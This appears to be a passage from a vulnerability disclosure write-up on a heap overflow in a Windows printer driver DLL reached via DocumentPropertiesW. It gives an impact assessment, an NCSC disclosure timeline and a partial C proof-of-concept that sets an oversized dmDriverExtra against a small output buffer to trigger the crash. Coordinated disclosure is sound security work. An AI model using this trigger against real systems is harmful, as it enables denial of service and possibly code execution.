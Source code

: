 
Now the main issue here is that final memcpy, it is assuming that the output
(`(void *)((longlong)param_2 + (ulonglong)uVar1)`) has been allocated with at
least the required amout of memory.


### Impact:

- This is ONLY in user space so there is no risk of Kernel comprimise here, this is a user-mode DLL not a kernel mode.
- Due to the above I dont think its possible for privilege escalation.
- This can cause a dos attack on any process that is trying to invoke the `DocumentPropertiesW`
- Since this is a heap corruption error in usermode then I think someone smarter than me would be able to move this into code execution.


## Timeline:

- Tue, Jul 29 2025: Bug discovered and reported to NCSC
- Fri, Aug 1 2025: Response from NCSC
- Wed, Aug 13 2025: NCSC reported bug to vendor
- Mon, Oct 6 2025: NCSC informed me that the disclosure period has ended and I am free to post about this.


## Appendix:

### A - POC

Note that this is just to show the crash, and this is not publishing any real exploit.

```c
#include <windows.h>
#include <winspool.h>
#include <stdio.h>

int main() {
    HANDLE hPrinter;
    WCHAR printerName[] = L"TP 3250"; // Is this always the same for all printers?? doesnt feel right ..

    if (!OpenPrinterW(printerName, &hPrinter, NULL)) {
        printf("OpenPrinterW failed: %lu\n", GetLastError());
        return 1;
    }

    printf("OpenPrinterW successful: handle = %p\n", hPrinter);

    DWORD extra = 0x740;
    DWORD outBufSize = 320;
    BYTE inputBuf[0x800] = {0};
    PDEVMODEW pIn = (PDEVMODEW)inputBuf;
    wcscpy(pIn->dmDeviceName, printerName);
    pIn->dmSize = sizeof(DEVMODEW);
    pIn->dmDriverExtra = extra;

    BYTE *outBuf = (BYTE*)malloc(outBufSize);
    if (!outBuf) {
        printf("wtf failed to allocate output buffer\n");
        ClosePrinter(hPrinter);
        return 1;
    }
    memset(outBuf, 0xCC, outBufSize);

    printf("calling DocumentPropertiesW() with dmDriverExtra = 0x%lx, outBuf = %lu bytes\n", extra, outBufSize);
```